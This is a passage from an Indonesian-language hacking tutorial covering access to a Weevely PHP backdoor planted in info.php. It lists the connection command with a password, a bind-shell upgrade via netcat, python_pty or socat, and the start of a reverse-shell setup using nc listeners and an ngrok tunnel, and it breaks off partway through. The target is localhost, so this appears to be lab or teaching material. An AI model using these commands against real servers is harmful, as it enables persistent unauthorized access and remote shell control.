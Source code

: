 # **Access Backdoor**

Pada kasus di bagian sebelumnya, kita sudah mengcopy backdoor ke info.php. Kalau kita akses info.php, memang sepertinya tidak ada yang berubah (lihat gambar dibawah)

[https://lh3.googleusercontent.com/eg5cjZW5_1hhs-qYLKj7BqkJZVfNfg23cB_vlul45IHWBqAeubjlmPpP6kVfwvlnsgIgHp9hSXNus08o2GTOkH0OwaB2MdqWLXclWjdWg4NUuyjjIWACRkeBUwd39HOmwdD37B0aHtlpoIigSA](https://lh3.googleusercontent.com/eg5cjZW5_1hhs-qYLKj7BqkJZVfNfg23cB_vlul45IHWBqAeubjlmPpP6kVfwvlnsgIgHp9hSXNus08o2GTOkH0OwaB2MdqWLXclWjdWg4NUuyjjIWACRkeBUwd39HOmwdD37B0aHtlpoIigSA)

Selanjutnya, untuk mengakses backdoor, kita cukup menggunakan perintah dengan format berikut. Hanya orang yang memiliki password yang bisa mengakses backdoor tersebut. Jadi jangan sampai lupa ya password nya !

```bash
$ weevely <**url**> <**password**>
```

Pada studi kasus yang kita lakukan, maka perintah yang harus kita masukkan adalah

```bash
weevely http://localhost/info.php pazzWurD
```

# **Upgrade to Stateful dengan Bind TCP**

Proses ini diperlukan agar kalian bisa mendapatkan akses shell interaktif atau lebih dikenal dengan TTY / PTY (pseudo terminal)

```bash
$ :backdoor_tcp -shell /bin/bash -vector <netcat,netcat_bsd,python_pty,socat> <port>
```

# **Upgrade to Stateful dengan Reverse TCP**

Proses ini membutuhkan IP Public atau domain agar bisa melakukan reverse tcp shell. Kita bisa memanfaatkan ngrok agar bisa mendapatkan TCP tunnel yang dilewatkan ke komputer kita.

Oh iya jika kalian belum pernah memasang ngrok di kali linux. Kalian bisa mengikuti panduan pemasangan disini [https://ngrok.com/download](https://ngrok.com/download).

Pada terminal 2 di kali linux silahkan persiapkan terminal dengan menggunakan Netcat-traditional:

```bash
$ nc -lvp 45456
```

Jika terjadi error mungkin disebabkan netcat yang kalian pasang adalah netcat-openbsd, kalian bisa gunakan alternatif perintah berikut:

```bash
$ nc -l 127.0.0.1 45456
```

Pada terminal 3 di kali linux silahkan persiapkan ngrok TCP tunnel dengan perintah berikut:
